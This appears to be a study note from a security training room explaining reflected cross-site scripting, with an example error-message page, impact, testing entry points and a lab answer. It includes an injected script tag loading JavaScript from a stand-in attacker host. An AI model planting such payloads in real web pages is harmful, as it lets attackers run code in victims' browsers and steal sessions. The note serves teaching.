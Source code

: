 # Reflected XSS

- Reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation.

## Example Scenario

- A website where if you enter incorrect input, an error message is displayed. The content of the error message gets taken from the error parameter in the query string and is built directly into the page source.
  
  ![Screenshot (823)](https://user-images.githubusercontent.com/63872951/183879680-f1aa6a93-8be2-4097-9440-8156d8b14488.png)

  ```js
  <div class="alert alert-danger">
    <p>Invalid Input Detected</p>
  </div>
  ```
  
- The application doesn't check the contents of the error parameter, which allows the attacker to insert malicious code.
  
  ![Screenshot (824)](https://user-images.githubusercontent.com/63872951/183879978-45148e11-ae2c-4b71-b1d0-e6fc0ff77f55.png)

  
  ```js
  <div class="alert alert-danger">
    <p><script src="https://attacker.thm/evil.js"></script></p>
  </div>
  ```
  
## Potential Impact:

- The attacker could send links or embed them into an iframe on another website containing a JavaScript payload to potential victims getting them to execute code on their browser, potentially revealing session or customer information.

## How to test for Reflected XSS:

- You'll need to test every possible point of entry; these include:

    - Parameters in the URL Query String
    - URL File Path
    - Sometimes HTTP Headers (although unlikely exploitable in practice)

- Once you've found some data which is being reflected in the web application, you'll then need to confirm that you can successfully run your JavaScript payload; your payload will be dependent on where in the application your code is reflected. 

# Answer the questions below

 1. Where in an URL is a good place to test for reflected XSS?
```
Parameters
```
